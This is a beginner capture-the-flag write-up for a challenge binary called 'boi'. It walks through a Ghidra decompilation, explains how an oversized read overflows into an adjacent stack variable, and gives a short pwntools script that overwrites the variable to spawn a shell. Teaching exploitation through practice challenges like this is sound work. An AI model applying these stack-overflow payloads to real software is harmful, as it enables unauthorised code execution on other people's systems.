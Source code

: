 We're finally starting to exploit some buffers :D

Opening the binary up in Ghidra we can look at the `main` function and see that the program expects some input, and then compares some variable that we apparently have no control over to another variable, and if they match, we spawn a shell. Otherwise, we'd just run the `date` command.


```
undefined8 main(void)

{
  long lVar1;
  long in_FS_OFFSET;
  undefined8 input;
  undefined8 local_30;
  undefined4 uStack_28;
  uint variableToChange;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  input = 0;
  local_30 = 0;
  uStack_28 = 0;
  variableToChange = 0xdeadbeef;
  puts("Are you a big boiiiii??");
  read(0,&input,0x18);
  if (variableToChange == 0xcaf3baee) {
    run_cmd("/bin/bash");
  }
  else {
    run_cmd("/bin/date");
  }
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

But if we analyze the code further, we can see that we're reading `0x18` bytes (or 24 bytes, in decimal) into a variable that only has 8 bytes. And if we see how the variables sit on the stack, we can see that the variables are all one after another.

```
 undefined8        Stack[-0x10]:8 local_10                                
 undefined4        Stack[-0x20]:4 local_20                                
 uint              Stack[-0x24]:4 variableToChange                        
 undefined8        Stack[-0x30]:8 local_30                                
 undefined8        Stack[-0x38]:8 input                                   
```

So if we do some math: `0x38 - 0x24 = 0x14`, which is smaller than `0x18` so, we can just send `0x14` dud bytes, and then the desired value, and BOOM! Shell popped :)

Script that solves this for us

```
from pwn import *

boi = process('./boi')

payload = b"0"* 0x14 +  p32(0xcaf3baee)

boi.send(payload)
boi.interactive()
```
